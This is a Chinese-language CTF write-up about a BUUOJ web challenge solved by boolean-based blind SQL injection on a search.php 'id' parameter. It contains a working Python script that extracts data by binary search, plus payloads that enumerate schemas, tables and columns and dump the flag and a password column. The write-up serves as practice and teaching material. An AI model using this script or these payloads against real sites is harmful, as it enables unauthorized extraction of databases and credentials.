 ![[Pasted image 20221214145735.png|400]]

---
首页长这样
![[Pasted image 20221214145759.png|700]]
`flag`是不可能白送的，这辈子都是不可能白送的.jpg

点击数字之后访问
```php
/search.php?id=xxx
```
对于无效数字，响应是
![[Pasted image 20221214145910.png]]

使用布尔盲注来获取数据库信息
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81/search.php"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'ERROR'

for i in range(1, 200):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': payload}
        response = requests.get(url, params)
        time.sleep(0.2)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()

```
`buuoj`这个429好严QAQ
![[Pasted image 20221214150250.png]]

修改`fmt`来爆`geek`数据库的表
```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'geek\')),%d,1))>%d)'
```
![[Pasted image 20221214150608.png]]

再次修改`fmt`来获取两张表的列
```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'F1naI1y\')),%d,1))>%d)'
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'Flaaaaag\')),%d,1))>%d)'
```
![[Pasted image 20221214150759.png]]
![[Pasted image 20221214150844.png]]

胜利近在咫尺
```python
fmt = '0^(ord(substr((select(group_concat(fl4gawsl))from(geek.Flaaaaag)),%d,1))>%d)'
```
![[Pasted image 20221214151723.png]]
![[Pasted image 20221214151710.png|700]]
谢谢有被出题人问候到
被骗了，这个表存的好像是问候语
```python
fmt = '0^(ord(substr((select(group_concat(password))from(geek.F1naI1y)),%d,1))>%d)'
```
![[Pasted image 20221214152922.png]]
出离愤怒😡
![[Pasted image 20221214153534.png]]
#Web #SQL注入 #布尔盲注 